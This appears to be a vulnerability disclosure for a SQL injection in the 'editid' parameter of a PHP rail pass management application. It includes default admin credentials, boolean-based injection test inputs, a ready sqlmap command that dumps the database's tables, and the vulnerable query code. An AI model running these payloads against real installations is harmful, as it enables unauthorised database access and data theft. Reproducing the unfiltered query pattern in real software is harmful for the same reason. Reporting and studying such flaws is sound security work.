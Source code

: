 # [Rail Pass Management System-SQL Injection-edit-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-pass-detail.php?editid=1`    

**[Vulnerability Location]:** rpms/admin/edit-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164127.png)

   

2. When you enter `1%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427164154.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-pass-detail.php?editid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427164442.png)

**[code analysis]:**

rpms/admin/edit-pass-detail.php

```php
$eid=$_GET['editid'];
$sql="SELECT * from  tblpass where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?> 
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.